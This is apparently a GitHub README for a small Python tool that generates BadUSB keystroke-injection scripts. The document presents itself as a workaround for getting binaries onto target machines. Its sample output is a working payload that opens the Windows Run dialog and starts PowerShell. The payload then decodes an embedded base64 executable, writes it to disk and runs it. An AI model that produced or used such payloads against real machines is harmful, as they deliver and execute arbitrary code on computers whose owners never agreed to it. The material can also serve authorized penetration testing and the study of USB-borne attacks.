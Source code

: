 # BadUSBBinFilePS
Small program for generating BadUSB script that generates binary files in Python

![Screenshot](https://github.com/James-P-D/BadUSBBinFilePS/blob/main/screenshot.gif)

## Introduction

When using [BadUSB](https://en.wikipedia.org/wiki/BadUSB) it is sometimes necessary to get a binary file onto the target machine. Unless the ducky device you are using can double up as an HID input *and* an external drive, you typically need to download the binary file from some online source, usually over HTTP(S). As a workaround for this, I decided to create a short Python script which could generate a BadUSB script which included the base64-encoded data for the binary file and was decoded in Powershell.

## Usage

Running the script with arguments produces:

```
Python main.py BINARY_FILE OUTPUT_BAD_USB_FILE
E.G.
Python main.py helloworld.exe bad_usb_test.txt
```

So to run it simply supply the arguments for the binary file to encode, and name of the BadUSB script file to be created.

The outputted file will look something like this:

```
GUI r
DELAY 500
STRING powershell
ENTER
STRING $b64str = 'TVqQAAMAAAAEAAAA.....[Lots more data]'
ENTER
STRING $bytes = [Convert]::FromBase64String($b64str)
ENTER
DELAY 500
STRING [io.file]::WriteAllBytes('helloworld.exe', $bytes)
ENTER
DELAY 500
STRING ./helloworld.exe
ENTER
```

When run on the target Windows machine it will <kbd>WIN</kbd>+<kbd>r</kbd> to open the 'run' dialog, then start `powershell`, then decode the base64-encoded data and save to file, and then finally run the executable. The execution of this script can be seen in the video at the top of this file.